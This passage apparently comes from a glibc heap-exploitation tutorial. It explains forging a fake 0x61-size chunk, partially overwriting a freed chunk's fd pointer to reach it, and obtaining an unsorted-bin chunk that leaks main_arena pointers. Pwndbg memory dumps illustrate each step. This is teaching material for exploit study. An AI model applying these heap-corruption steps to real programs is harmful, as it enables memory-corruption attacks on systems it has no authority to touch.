 ```c

}

```







### First step


First fake a chunk, the size of the chunk is 0x61. Then we use partial overwrite to point the FD to the forged chunk (of course, we can also do this with UAF).


Forged chunk size


```bash

pwndbg&gt;
0x555555757050: 0x41414141      0x41414141      0x41414141      0x41414141

0x555555757060: 0x41414141      0x41414141      0x41414141      0x41414141

0x555555757070: 0x41414141      0x41414141      0x41414141      0x41414141

0x555555757080: 0x41414141      0x41414141      0x41414141      0x41414141

0x555555757090: 0x41414141      0x41414141      0x61    0x0     <----------

```



Here, we are free of chunk 1, this time we can get an unsortbin


```

0x555555757020 PREV_INUSE {

  prev_size = 0x0,

  size = 0xd1,

fd = 0x7ffff7dd1b58 <main_arena+88> ,
bk = 0x7ffff7dd1b58 <main_arena+88> ,
  fd_nextsize = 0x4141414141414141,

bk_nextsize = 0x4141414141414141
}

```


